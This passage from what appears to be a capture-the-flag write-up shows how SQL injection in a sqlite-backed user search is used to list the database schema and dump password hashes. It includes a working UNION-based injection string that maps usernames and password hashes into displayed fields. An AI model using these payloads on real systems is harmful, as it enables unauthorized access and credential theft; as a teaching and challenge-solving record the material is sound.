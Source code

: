 ## SQL Injection (Dumping Hashes)

Now that we can execute arbitraty sql, let's see about getting some more information about the application's database. We know from the challenge description that it's using sqlite, and a quick google gives us a query we can use to list all the tables and their schemas (modified slightly to fit our column names):
```sql
SELECT name, sql AS "bio" FROM sqlite_master WHERE type='table'
```
This query can be injected in exactly the same way as the query in the above section, and when run will output

![User Search Schema](user_search_schema.png)  
_INSERT joke INTO jokes_

So it looks like there's only one table, named `users`. Lets pull out and format the schema so it's easier to read.
```sql
CREATE TABLE users (
    username text primary key not null, 
    password_hash text not null, 
    hint text not null, 
    bio text not null
)
```
Aha! `password_hash` looks interesting, doesn't it? Let's write a query that will dump those (notice we need to rename `username` to `name` as well):
```sql
SELECT username AS name, password_hash AS bio FROM users
```
Repeating the process for this query, we get the search input we need to dump every user's password hash:
```
" UNION SELECT username AS name, password_hash AS bio FROM users; --
```

